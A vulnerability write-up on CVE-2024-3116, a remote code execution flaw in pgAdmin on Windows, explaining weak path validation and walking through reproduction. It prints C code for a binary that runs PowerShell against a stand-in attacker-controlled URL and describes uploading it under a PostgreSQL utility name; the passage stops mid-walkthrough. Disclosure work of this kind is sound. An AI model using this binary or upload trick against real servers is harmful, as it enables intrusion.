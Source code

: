 ```yaml
---
layout: post
title:  "CVE-2024-3116 – Remote Code Execution Vulnerability in pgAdmin - PostgreSQL Tools (<=8.4): Detailed Analysis Report"
---
```



The following write-up guides you through the discovery of a critical Remote Code Execution (RCE) vulnerability in pgAdmin (<=8.4) a widely used administrative tool for PostgreSQL databases, which presents a significant concern. the vulnerability can be identified with CVE-2024-3116 

The analysis provided offers a thorough examination of the vulnerability's root cause, primarily linked to inadequate validation of file paths within PGAdmin, enabling unauthorized code execution. This issue poses a considerable risk on Windows platforms, attributed to their more permissive approach to executable file permissions. This write-up details the steps involved in creating and executing a malicious executable designed to exploit this vulnerability on Windows, along with an explanation of why such an exploit is impractical on *nix systems without explicit user intervention.

At the heart of our discussion is a focused review of the malicious code used to exploit this vulnerability and the remediation efforts undertaken by PGAdmin's development team. The applied patch significantly improves the path validation processes.

## Detailed Steps to Reproduce the Vulnerability

#### Compilation of Malicious Binary

The attack begins with compiling the following C code into a binary. This code, upon execution, uses the `system` function to make an outbound HTTP request to a specified attacker-controlled URL.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    if (argc > 1 && strcmp(argv[1], "--version") == 0) {
        system("powershell.exe -Command \"Invoke-RestMethod http://<randomstr>.attacler-controlled.com\"");
    } else {
        printf("Usage: %s --version\n", argv[0]);
    }
    return 0;
}
```

#### Uploading the Malicious Binary:
The binary is uploaded via an API endpoint designed for file management within PGAdmin. Naming the binary to mimic essential PostgreSQL utilities tricks the application into executing it as if it were a legitimate operation. e.g, pg_dump, pg_dumpall, pg_restore, psql

```python
@blueprint.route("/filemanager/<int:trans_id>/", methods=["POST"], endpoint='filemanager')
@login_required
def file_manager(trans_id):
    ...
```
You can either use the API or use the browser directly as you can see in the screenshot below:
